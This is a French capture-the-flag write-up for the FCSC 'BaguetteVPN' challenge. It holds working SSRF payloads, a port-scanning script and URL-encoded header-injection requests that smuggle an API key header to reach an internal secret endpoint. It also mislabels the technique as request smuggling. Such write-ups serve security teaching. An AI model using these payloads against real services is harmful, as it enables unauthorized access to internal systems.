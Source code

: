 # BaguetteVPN 2/2
<img src="https://user-images.githubusercontent.com/74382279/117364841-b2b29780-aebe-11eb-9e7f-52f116bab774.png"/><br/>
On se retrouve pour la partie la plus compliquée du challenge.<br/>
## Résolution
Pour commencer, brêve analyse du fichier ```./baguettevpn_server_app_v0.py```.<br/>
Cette fonction devrait nous print le flag:<br/>
```py
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```
Cependant, on est confronté face à plusieurs conditions.<br/>
On doit trouver un moyen de requêter à travers le serveur, on s'attend donc à exploiter une faille de type SSRF.<br/>
On s'attaquera à la deuxième condition plus tard.<br/>
## SSRF
En fouillant le site, j'apperçois un point d'injection pottentiellement vulnérable à une SSRF.<br/>
Le paramètre ```/api/image?fn=``` permet de read des fichiers internes.<br/>
Je décide donc d'exploiter ce paramètre, en me munissant de ce cheatsheet plutôt complet: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery">Link</a>.<br/>
En premier temps j'essaye  ```/api/image?fn=127.0.0.1```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839960727799595079/unknown.png?width=1440&height=323"/><br/>
Malheureusement la requête ne passe pas, j'ajoute donc un ```@``` pour bypass les weak parsers.<br/>
Toujours rien.<br/>
En lisant l'énoncé du challenge je vois qu'une énumération des ports inférieurs à 2000 est autorisée.<br/>
Je fais donc la même chose en gardant la même injection ```/api/image?fn=@127.0.0.1:[port]``` et en énumérant les ports.<br/>
Pour ce faire, j'ai fait un script afin d'automatiser tout ça.<br/>
```py
import requests as r

if __name__ == "__main__":
	with r.session() as s:
		for i in range(0, 2000 + 1):
			response = s.get("http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:%s" % (str(i)))
			if "Internal Server Error" not in response.text:
				print(response.url)
```
Après quelques minutes je vois que le port ```1337``` a été match.<br/>
Je me rends donc à ```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839958634514612284/unknown.png?width=1440&height=490"/><br/><br/>
Good, on est sur la bonne voie.<br/>
Je me rends à la path ```/api/secret``` et je vois que requête passe bien localement.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839959391415697428/unknown.png?width=1440&height=462"/><br/><br/>
Première condition validée, on passe donc à la deuxième condition.<br/>
## HTTP Request Smuggling
```py
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12'
```
On doit trouver un moyen d'utiliser des headers dans l'URL.<br/>
A ce moment j'ai immédiatement su qu'il s'agissait d'une faille de type PHP Request Smuggling.<br/>
Il faut savoir que dans ce genre de situations, il y a 3 acteurs.<br/>
**• L'attaquant**<br/>
**• Le proxy/firewall**<br/>
**• Le serveur web**<br/>
Cette faille a beaucoup de variantes, mais principalement elle surgit de cette manière.<br/>
**• L'attaquant se connecte au proxy, il envoie ABC**<br/>
**• Le proxy l'interprète comme AB, C, et le rédirige vers le serveur**<br/>
**• Le serveur web l'interprète comme A, BC, et répond avec r(A), r(BC)**<br/>
**• Proxy caches r(A) pour AB, r(BC) pour C**<br/>
La première chose que je fais c'est ajouter ```HTTP/1.1``` à l'URL.<br/>
J'obtiens une erreur de parsing plutôt intéressante.<br/>
```PHP
Error response
Error code: 400

Message: Bad request syntax ('GET /api/secret HTTP/1.1 HTTP/1.1').

Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.
```
Je constate que le ```HTTP/1.1``` a bien été ajouté dans le corps de la requête.<br/>
Ma première idée consistait à retaper le corps de la requête directement dans l'URL en faisant attention aux sauts de ligne (line feed).<br/>
J'ai donc tenté de push le header X-API-KEY en ajoutant le ```%0a```.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12```<br/>
Aucun résultat, je suppose qu'il y a un header ```Content-Length``` initialisé à 0 qui bloque la requête.<br/>
Je calcule la taille de la clé X-API-KEY.<br/>
```py
>>> print(len("b99cc420eb25205168e83190bae48a12"))
32
```
J'ajoute le header ```Content-Length``` avec la taille 32.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12%0aContent-length:32```<br/>
```json
{"secret":"FCSC{6e86560231bae31b04948823e8d56fac5f1704aaeecf72b0c03bfe742d59fdfb}"}
```
Done.<br/>
